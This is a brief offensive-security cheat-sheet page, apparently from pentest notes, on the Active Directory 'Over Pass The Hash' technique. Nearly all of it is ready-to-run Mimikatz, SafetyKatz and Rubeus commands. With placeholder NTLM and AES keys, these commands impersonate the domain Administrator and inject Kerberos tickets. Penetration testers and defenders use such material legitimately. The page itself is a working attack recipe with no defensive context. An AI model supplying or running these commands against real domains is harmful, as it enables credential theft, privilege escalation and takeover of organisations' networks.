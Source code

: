 # Over Pass The Hash

Over pass the hash (OPTH) is used between domain joined and not passing directly the NTLM hash to authenticate, instead asking for TGT.

{% code overflow="wrap" fullWidth="false" %}
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:Administrator /domain:us.techcorp.local /aes256:<aes256key> /run:powershell.exe"'

SafetyKatz.exe "sekurlsa::pth /user:administrator /domain:us.techcorp.local /aes256:<aes256keys>  /run:cmd.exe" "exit"

Rubeus.exe asktgt /user:administrator /rc4:<ntlmhash> /ptt

Rubeus.exe asktgt /user:administrator /aes256:<aes256keys> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

